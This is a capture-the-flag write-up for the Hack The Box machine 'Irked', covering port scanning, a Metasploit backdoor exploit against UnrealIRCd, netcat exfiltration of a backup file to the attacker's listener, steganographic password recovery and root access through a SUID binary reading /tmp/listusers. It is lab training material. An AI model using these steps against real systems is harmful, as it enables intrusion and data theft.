


# Irked

## User

### Scan
Like usual, start by scanning with `nmap -sC -sV 10.10.10.117`:
```
Nmap scan report for 10.10.10.117
Host is up (0.17s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          41418/tcp  status
|_  100024  1          60262/udp  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.96 seconds
```
Let's check each service one-by-one and see what we find. Webservers are usually a good place to start. Searching the Apache version 2.4.10 shows us that this webserver is severely outdated with many CVEs. I messed around with some metasploit modules that scan for the optionsbleed vulnerability with no luck. Viewing the webserver might give us more of a clue.

 

This is interesting because IRC did not show up in our initial scan. Scanning again over all the ports may reveal more services. Doing a full scan of all ports takes a long time, so to mitigate this we will use a program called `masscan` that is included in Kali by default. Once we know which ports are open we can do a more in-depth scan of those ports with `nmap`.
```
masscan -p1-65535,U:1-65535 10.10.10.117 --rate=1000 -e tun0 > nmap/masscan.out
```

Just for fun, let's use another method of scanning that will produce a readable webpage using the stylesheet parameter of `nmap`. I got a stylesheet from [here](https://github.com/honze-net/nmap-bootstrap-xsl), you can find it in the Auxiliary directory of this repo. Now let's see what the scan turns up with the new ports.
```
nmap -sC -sV -oA irked --style nmap-bootstrap.xsl -p8067,6697,65534,111,22,33262 10.10.10.117
firefox irked.xml
```


### Exploit IRC
Now we can see that irc is running and that it's using UnrealIRCd. A quick search for UnrealIRCd exploits reveals a backdoor command execution exploit that we can deploy with Metasploit.

The steps to getting a shell on the system using this exploit are as follows:
1. Start metasploit with `msfconsole`
2. Select the exploit with `use exploit/unix/irc/unreal_ircd_3281_backdoor`
3. Show requirements for this exploit with `show options`
4. Set options:
    * Set target host: `set RHOSTS 10.10.10.117`
    * Set IRC port: `set RPORT 6697`
5. Run exploit with `exploit`

### Privilege Escalation
Now we have a shell! Look around and see what files are available to us. To get `user.txt`, do a search for the file with `find / -name "user.txt"`. In this case the file is at `/home/djmardov/Documents/user.txt`. Unfortunately, our user cannot read this file. However, there is another interesting file in this directory that we can read: `.backup`.

We can use `netcat` to exfil this file since we don't have SSH. Start a listener on your machine with `nc -l -p 8080 > backup`. On the remote side, run `nc -w 3 [hostname] 8080 < .backup`.
```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

This took me longer than it should have to figure out. Steg usually refers to hiding data in files that are in plain sight. The only steg-like item we have encountered so far is the `irked.jpg` image seen on the website. The second line of this file is the passphrase to extract the user password from the image. Pull the file using `wget 10.10.10.117/irked.jpg`. 

`steghide` is the most commonly used tool for this sort of thing, so I figured it would be a good place to start. Running `steghide extract -sf irked.jpg` and entering the passphrase gives us the user password! Now we can SSH into the box and get `user.txt`:
```
4a66a78b12dc0e661a59d3f5c0267a8e
```

## Root

### Enumeration
As far as I can tell, privilege escalation at this point requires lots of enumeration. I followed [this checklist](https://www.rebootuser.com/?p=1623) to start looking for abnormalities. 

After trying lots of different things, I noticed that there were many discrepancies between the SUID files on my system and the ones on this box. The command to find SUID files is `find / -perm -4000 -type f 2>/dev/null`. 

I ran that command on both machines and researched/tested the ones that were different. The one that jumped out to me was `viewuser` because of its strange output. 



We can try creating a file called `/tmp/listusers` and see what happens. I tried a few different things like putting `root` or `djmardov` in there but I got a permission denied error. Then I tried including bash commands to see if the program would run them and it did! Simply placing `su` in the `/tmp/listusers` file elevates us to a root shell and the box is ours. 
```
8d8e9e8be64654b6dccc3bff4522daf3
```
